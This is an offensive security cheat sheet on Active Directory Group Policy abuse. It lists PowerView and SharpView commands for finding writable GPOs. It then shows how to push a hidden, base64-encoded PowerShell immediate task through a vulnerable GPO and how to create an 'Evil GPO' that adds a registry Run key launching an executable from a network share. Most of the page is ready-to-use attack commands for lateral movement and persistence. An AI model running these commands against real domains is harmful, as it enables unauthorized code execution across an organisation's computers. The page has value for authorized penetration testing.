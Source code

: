 ```yaml
---
description: Group Policy Objects
---
```


# GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)

Force GPO update on all domain computers:

```
PS > Get-ADComputer -Filter * | % {Invoke-GPUpdate -Computer $_.name -Force -RandomDelayInMinutes 0}
```




## Hunt for GPOs

List all GPOs in the domain:

```
PS > .\SharpView.exe Get-DomainGPO -Properties displayName
```

List GPOs applied to a specifiec domain user or computer:

```
PS > .\SharpView.exe Get-DomainGPO -UserIdentity snovvcrash -Properties DisplayName
PS > .\SharpView.exe Get-DomainGPO -ComputerIdentity WS01 -Properties DisplayName
Or
Cmd > gpresult /r /user snovvcrash [/h gpos-snovvcrash.html]
Cmd > gpresult /r /s WS01 [/h gpos-ws01.html]
```

Search for writable GPOs for the `Domain Users` security group:

```
PV3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PV3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PV3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the `MEGACORP\PolicyAdmins` group:

```
PV3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PV3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```

List users that can create a GPO and link it to a specific OU:

```
PV3 > Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=megacorp,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -match "CreateChild" } | select objectDN,securityIdentifier | fl
PV3 > Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select objectDN,securityIdentifier | fl
```



### GPOImmediateTask

* [PowerView3.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) [(New-GPOImmediateTask)](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

Create a task with a PowerShell payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Cleanup:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```



### GPPrefRegistryValue

Check if GPMC is installed and if it's not, install it as a Windows Feature (requires elevation):

```
PS > Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
PS > Install-WindowsFeature –Name GPMC
```

Create an evil GPO and link it to the target OU (will be visible in the management console):

```
PS > New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=megacorp,DC=local"
```

Locate a writable network share:

```
PV3 > Find-DomainShare -CheckShareAccess
```

Prepare your payload, put it to the network share and create an autorun value in the evil GPO to run the payload on boot/logon:

```
PS > Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min /c \\srv01\SoftwareShare\evil.exe" -Type ExpandString
```




## WMI Filters

- [https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/](https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/)




## Tools



### SharpGPOAbuse

- [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)



### pyGPOAbuse

- [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
